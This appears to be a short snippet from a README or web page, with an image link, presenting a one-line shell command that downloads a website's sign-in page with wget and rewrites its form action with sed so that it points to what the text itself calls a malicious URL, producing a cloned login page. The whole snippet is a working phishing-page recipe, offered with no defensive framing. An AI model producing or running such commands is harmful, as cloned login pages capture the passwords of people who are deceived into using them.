 Run this on a sign in endpoint and it will retrieve the HTML contents, replace the form action endpoint with a malicious URL, and finally output everything to `sign-in.html`.

```
$ wget --quiet --output-document=/tmp/temp-sign-in-file http://example.com/user/sign_in && sed -e 's/action="[^"]*/action="https:\/\/example.com\/sign-in.php/g' /tmp/temp-sign-in-file > sign-in.html
```